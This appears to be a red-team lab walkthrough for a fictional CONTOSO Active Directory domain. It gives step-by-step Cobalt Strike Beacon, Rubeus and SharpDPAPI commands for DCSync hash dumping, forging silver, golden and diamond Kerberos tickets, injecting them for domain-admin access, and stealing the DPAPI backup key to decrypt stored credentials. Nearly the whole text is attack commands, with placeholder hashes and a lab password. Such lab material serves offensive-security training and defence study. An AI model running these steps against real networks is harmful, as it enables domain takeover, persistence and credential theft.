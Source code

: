 ## DCSync

From the medium integrity Beacon:

1.  Impersonate a domain admin.
    
    1. make_token CONTOSO\dyork Passw0rd!
2.  Run dcsync to obtain the domain's krbtgt hash.
    
    1. dcsync contoso.com CONTOSO\krbtgt
3.  To obtain the hash of a computer account, remember to include the $ in the username.
    
    1. dcsync contoso.com CONTOSO\lon-db-1$
4.  Drop the impersonation.
    
    1. rev2self

## Silver Ticket

1.  On the Attacker Desktop, use the AES256 hash of _lon-db-1_ to forge a silver ticket for the cifs service.
    
    TerminalTypeCopy
    
    `C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /service:cifs/lon-db-1 /aes256:[HASH] /user:Administrator /domain:CONTOSO.COM /sid:S-1-5-21-3926355307-1661546229-813047887 /nowrap`
    

From the high-integrity Beacon:

1.  Create a new sacrificial logon session for the impersonated user.
    
    1. make_token CONTOSO\Administrator FakePass
2.  Inject the silver ticket into this logon session.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:[TICKET]`
    
3.  Verify the ticket has been injected.
    
    1. run klist
4.  List the target's C$ drive.
    
    1. ls \\lon-db-1\c$
5.  Purge the ticket cache.
    
    1. run klist purge


## Golden Ticket

1.  On the Attacker Desktop, use the krbtgt's AES256 hash to forge a golden ticket for the default domain administrator.
    
    TerminalTypeCopy
    
    `C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /aes256:[HASH] /user:Administrator /domain:CONTOSO.COM /sid:S-1-5-21-3926355307-1661546229-813047887 /nowrap`
    
2.  Inject the golden ticket into the sacrificial logon session on the high-integrity Beacon.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:[TICKET]`
    
3.  Verify the ticket has been injected.
    
    1. run klist
4.  List the target's C$ drive.
    
    1. ls \\lon-dc-1\c$
5.  Purge the ticket cache.
    
    1. run klist purge

## Diamond Ticket

1.  From the medium-integrity Beacon, use the krbtgt's AES256 hash to create a diamond ticket for the default domain administrator.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe diamond /tgtdeleg /krbkey:[HASH] /ticketuser:Administrator /ticketuserid:500 /domain:CONTOSO.COM /nowrap`
    
2.  Inject the golden ticket into the sacrificial logon session on the high-integrity Beacon.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:[TICKET]`
    
3.  Verify the ticket has been injected.
    
    1. run klist
4.  List the target's C$ drive.
    
    1. ls \\lon-dc-1\c$


## DPAPI Backup Key

1.  From the medium-integrity Beacon, impersonate a domain admin again.
    
    1. make_token CONTOSO\dyork Passw0rd!
2.  Recover the domain's backup DPAPI key.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe backupkey`
    
3.  Drop the impersonation.
    
    1. rev2self
4.  Use the key to decrypt credentials stored in the Credential Manager.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe credentials /pvk:[KEY]`